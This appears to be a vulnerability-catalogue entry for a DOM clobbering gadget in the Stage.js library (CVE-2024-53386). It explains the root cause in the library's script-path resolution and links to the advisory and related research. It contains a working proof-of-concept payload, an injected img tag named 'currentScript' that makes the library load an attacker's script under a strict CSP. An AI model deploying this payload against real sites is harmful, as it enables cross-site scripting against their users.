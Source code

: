 ```yaml
---
description: Stage.js is a lightweight and fast 2D rendering and layout library for web and mobile game development.
github: piqnt/stage.js
gadgets:
  ≤0.8.10:
    cve: CVE-2024-53386
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - safari-browser
      - img-tag
      - src-attr
      - strict-dynamic-csp
      - before-func-call
    pocs:
      - description: The [Stage.js](https://github.com/piqnt/stage.js) library was using `document.currentScript` as a reference to load plugins.
        code: |
          <!-- user input -->
          <img name="currentScript" src="[current-location]/assets/xss/index.js">

          <script nonce="secret" src="https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.web.js"></script>
          <script nonce="secret">
            Stage.preload("./index.js");
          </script>
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/piqnt/stage.js/blob/a1d7da8b8ebccfba4159ff8f986578dfd988a22c/lib/core.js#L155-L206">https://github.com/piqnt/stage.js/blob/a1d7da8b8ebccfba4159ff8f986578dfd988a22c/lib/core.js#L155-L206</a>

      ```javascript
      function getScriptSrc() {
        // HTML5
        if (document.currentScript) {
          return document.currentScript.src;
        }

        // [...]

        return function(url) {
          if (/^\.\//.test(url)) {
            var src = getScriptSrc();
            var base = src.substring(0, src.lastIndexOf('/') + 1);
            url = base + url.substring(2);
            // } else if (/^\.\.\//.test(url)) {
            // url = base + url;
          }
          return url;
        };
      ```
    links:
      - https://github.com/advisories/GHSA-fp3m-g5rc-4c28
      - https://gist.github.com/jackfromeast/31d56f1ad17673aabb6ab541e65a5534
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/stage.js.md
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

